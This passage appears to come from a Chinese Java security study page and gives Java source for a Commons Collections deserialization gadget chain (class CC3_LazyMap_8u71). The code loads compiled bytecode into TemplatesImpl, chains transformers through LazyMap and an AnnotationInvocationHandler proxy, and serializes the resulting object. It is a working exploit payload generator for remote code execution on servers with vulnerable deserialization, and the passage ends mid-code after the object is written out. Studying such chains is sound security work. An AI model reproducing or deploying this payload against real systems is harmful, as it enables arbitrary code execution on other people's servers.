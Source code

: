 ## 利用CC1链

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC3_LazyMap_8u71 {
    private static void setFiledValue(Object obj, String fieldName, Object fieldValue) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, fieldValue);
    }
    public static void main(String[] args) throws Exception{
        byte[] codes = Files.readAllBytes(Paths.get("E:\\研究生\\JavaSec\\code\\target\\classes\\Calc.class"));
        byte[][] _bytecodes = new byte[][] {codes};
        TemplatesImpl templates = new TemplatesImpl();
        setFiledValue(templates, "_bytecodes", _bytecodes);
        setFiledValue(templates, "_name", "whatever");
        setFiledValue(templates, "_tfactory", new TransformerFactoryImpl());
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
        };
        ChainedTransformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
        handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();

```